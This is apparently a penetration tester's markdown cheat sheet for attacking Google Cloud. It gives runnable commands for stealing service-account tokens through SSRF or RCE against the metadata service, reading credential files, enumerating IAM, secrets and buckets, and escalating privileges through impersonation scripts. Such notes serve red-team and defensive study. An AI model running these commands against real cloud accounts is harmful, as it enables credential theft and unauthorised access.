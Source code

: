 # GCP Pentesting

Three Main Components of Google Cloud are:
- Cloud Identity
- Google Workspace
- Google Cloud Platform 

### Reminder: Add basic concepts

## Attack Vectors

Attackers can obtain GCP credentials through multiple vectors:

- Exploiting web apps hosted on GCP
    - SSRF → Access metadata service
    - RCE → Dump environment variables, application config files, or mounted service account keys
- Open Source Intelligence (Leaked service account keys on GitHub, GitLab, or public repos)
- Phishing / Social Engineering
- Public GCS buckets containing service account keys or JSON credential files.

### Stealing Service Account Tokens via SSRF

- Send request to `http://169.254.169.254` or `http://metadata.google.internal/` along with header `Metadata-Flavor: Google`.
- Example: `http://169.254.169.254/computeMetadata/v1/instance/service-accounts/`

> Some SSRF filters only allow http://metadata.google.internal/ instead of raw IP. Both resolve to the metadata service.

### Stealing Service Account Tokens via RCE

- Check environment variables:

```shell
env | grep -i google
```

- Check for credential files:

```shell
# Kubernetes ServiceAccount token
cat /var/run/secrets/kubernetes.io/serviceaccount/token

# Application default credentials
cat /etc/google/auth/application_default_credentials.json
cat /root/.config/gcloud/application_default_credentials.json

# gcloud CLI stored tokens (if installed)
cat ~/.config/gcloud/credentials.db
cat ~/.config/gcloud/access_tokens.db
```

- Query the Metadata Service (VMs, GKE, some managed services):

```shell
# List available service accounts
curl -H "Metadata-Flavor: Google" \
    "http://169.254.169.254/computeMetadata/v1/instance/service-accounts/"

# Get token for the default service account
curl -H "Metadata-Flavor: Google" \
    "http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token"

# Get token for a specific service account
curl -H "Metadata-Flavor: Google" \
    "http://169.254.169.254/computeMetadata/v1/instance/service-accounts/<service_account>/token"
```

## Authentication & Token Usage

- Login with Gmail account:

```shell
gcloug auth login
```

- Authenticate using Service Account key file:

```shell
gcloud auth activate-service-account --key-file=service_account_json_file.json
```

- Use an access token file:

```shell
gcloud <command> --access-token-file token.txt
```

- Send token directly with curl:

```shell
curl -s -X GET \
    -H "Authorization: Bearer $(cat token.txt)" \
    "https://iam.googleapis.com/v1/projects/-/serviceAccounts"
```

- Authenticate with Google HMAC credentials:

```shell
gsutil config -a
```

> By default, gsutil reuses gcloud credentials. If you want gsutil to use only HMAC creds and not your gcloud login, disable credential passing: `gcloud config set pass_credentials_to_gsutil false`


Check current authentication details:

```shell
gcloud auth list
```

Show active configuration:

```shell
gcloud config list
```


## Enumeration

### Organization Enumeration

- List organizations available to current account:

```bash
gcloud organizations list
```

- Get IAM policy for an organization:

```bash
gcloud organizations get-iam-policy <org_id>
```

- List folders under an organization:

```bash
gcloud resource-manager folders list --organization=<org_id>
```

- List projects under an organization:

```bash
gcloud projects list --filter="parent.id=<org_id>"
```

> If you have only project-level access, you may not see org info. Try enumerating projects and their parent orgs with:

```bash
gcloud projects describe <project_id> --format="value(parent.id)"
```


```shell
# Projects info
gcloud projects list
gcloud config set project <name>
gcloud projects get-iam-policy [ProjectID]
gcloud projects get-iam-policy [ProjectID] --flatten="bindings[].members" --filter="bindings.members=serviceaccount:<account_email>" --format="value(bindings.role)"

# Service accounts
gcloud iam service-accounts list
gcloud iam service-accounts get-iam-policy [Service Account Email ID]
gcloud iam service-accounts keys list --iam-account [service Account Email ID]


# iam
gcloud iam roles list
gcloud iam roles describe [roles/owner]
gcloud iam roles list --project [alert-nimbus-335411]
gcloud iam roles describe [RoleName] --project [alert-nimbus-335411]

git clone https://github.com/hac01/gcp-iam-brute.git
python3 main.py --access-token $(gcloud auth print-access-token) --project-id $(gcloud config get-value project) --service-account-email $(gcloud auth list --filter=status:ACTIVE --format="value(account)")

for sa in $(gcloud iam service-accounts list --format="value(email)"); do
  echo "[*] Checking $sa"
  gcloud iam service-accounts get-iam-policy "$sa"
  done

gcloud projects get-iam-policy <project_id> \
  --format="flattened(bindings[].members)" \
  | grep 'serviceAccount:' \
  | awk -F'serviceAccount:' '{print $2}' \
  | sort -u > serviceaccounts.txt

for sa in $(cat serviceaccounts.txt); do
echo "[*] checking $sa"
  curl -s -X POST \
    -H "Authorization: Bearer $(gcloud auth print-access-token)" \
    -H "Content-Type: application/json" \
    -d '{
          "permissions": [
            "iam.serviceAccounts.getAccessToken",
            "iam.serviceAccounts.signJwt",
            "iam.serviceAccounts.implicitDelegation",
            "iam.serviceAccounts.actAs"
          ]
        }' \
    "https://iam.googleapis.com/v1/projects/-/serviceAccounts/$sa\:testIamPermissions"
done
```

```shell
https://cloud.hacktricks.wiki/en/pentesting-cloud/gcp-security/index.html
https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation
https://github.com/RhinoSecurityLabs/GCPBucketBrute
https://gitlab.com/gitlab-com/gl-security/security-operations/redteam/redteam-public/pocs/gcp_enum/-/blob/master/gcp_enum.sh?ref_type=heads
```

```shell
# secret manager (`secretmanager.secretAccessor`)
gcloud secrets list
gcloud secrets versions access latest --secret="seccret_name"

# cloud sql `cloudsql.viewer`
gcloud sql instances list
mysql -h <IP> -u <username> -p

`iam.serviceAccountTokenCreator`
gcloud --impersonate-service-account="service_accpunt" auth print-access-token

`source.reader`
gcloud source repos list --access-token-file=access_token.txt

# artifact registry
gcloud artifacts repositories list
gcloud artifacts docker images list <location>-docker.pkg.dev/<project_id>/<reponame>
gcloud auth configure-docker <location>-docker.pkg.dev
docker pull <location>-docker.pkg.dev/<project_id>/<reportname>/<image_name>@sha256:<sha256_hash>

# Buckets
python3 gcpbucketbrute.py -f token_file -k <keywords> -s 10
gcloud storage ls gs://<bucket_name>

gsutil ls
gsutil ls gs://<bucket_name>

`implicit delegation`
https://raw.githubusercontent.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/refs/heads/master/ExploitScripts/iam.serviceAccounts.implicitDelegation.py:
python3 iam.serviceAccounts.implicitDelegation.py <owned_account> <target_account>

# cloud functions
gcloud functions list --access-token-file=access_token.txt
gcloud functions describe <function_name> --region=<region> --access-token-file=access_token.txt

## signjwt
https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signJWT.py

```